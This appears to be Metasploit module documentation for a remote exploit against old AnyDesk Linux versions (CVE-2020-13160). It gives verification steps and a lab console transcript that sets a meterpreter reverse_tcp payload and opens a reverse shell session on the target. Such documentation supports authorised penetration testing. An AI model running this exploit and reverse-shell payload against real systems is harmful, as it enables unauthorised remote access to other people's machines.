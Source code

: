 ## Vulnerable Application

This vulnerability affects Linux versions 5.5.2 and older. Old versions of AnyDesk can be downloaded from their site at
https://download.anydesk.com/linux/. Use the `.deb` package for an Ubuntu installation.

The check method on this exploit will send an AnyDesk discovery frame to the target host, which will cause the the
target to respond with it's own discovery frame. Each of these are sent from a random source port to the default AnyDesk
discovery service port of 50001. To configure the listening service in Metasploit, change the `SRVHOST` and `SRVPORT`
options. The exploit will use this method to detect the remote hostname and confirm that the operating system is Linux
before proceeding.

## Verification Steps
Example steps in this format (is also in the PR):

1. Install the application
1. Start the AnyDesk GUI. A window will open, leave it running.
1. Start msfconsole
1. Do: `use exploit/linux/misc/cve_2020_13160_anydesk`
1. Set the module options
1. Do: `exploit`
1. You should get a shell.

## Options

### SRVHOST

This option is used to specify the host on which to listen for discovery frames from AnyDesk.

### SRVPORT

This option is used to specify the port on which to listen for discovery frames from AnyDesk.

## Scenarios

### Ubuntu 18.04 x64

```
msf5 exploit(linux/misc/cve_2020_13160_anydesk) > use exploit/linux/misc/cve_2020_13160_anydesk 
msf5 exploit(linux/misc/cve_2020_13160_anydesk) > set RHOSTS 192.168.159.33
RHOSTS => 192.168.159.33
msf5 exploit(linux/misc/cve_2020_13160_anydesk) > set PAYLOAD linux/x64/meterpreter/reverse_tcp 
PAYLOAD => linux/x64/meterpreter/reverse_tcp
msf5 exploit(linux/misc/cve_2020_13160_anydesk) > check
[*] 192.168.159.33:50001 - The service is running, but could not be validated. Remote hostname: ubuntu
msf5 exploit(linux/misc/cve_2020_13160_anydesk) > exploit

[*] Started reverse TCP handler on 192.168.250.87:4444 
[*] Discovered the remote service (hostname: ubuntu, os: linux)
[*] Sent exploit frame, waiting for the GUI to refresh to trigger the vulnerability...
[*] Sending stage (3012516 bytes) to 192.168.250.237
[*] Meterpreter session 1 opened (192.168.250.87:4444 -> 192.168.250.237:51044) at 2020-06-17 10:21:44 -0400

meterpreter > getuid
Server username: no-user @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
meterpreter > sysinfo
Computer     : 192.168.159.33
OS           : Ubuntu 18.04 (Linux 5.3.0-59-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
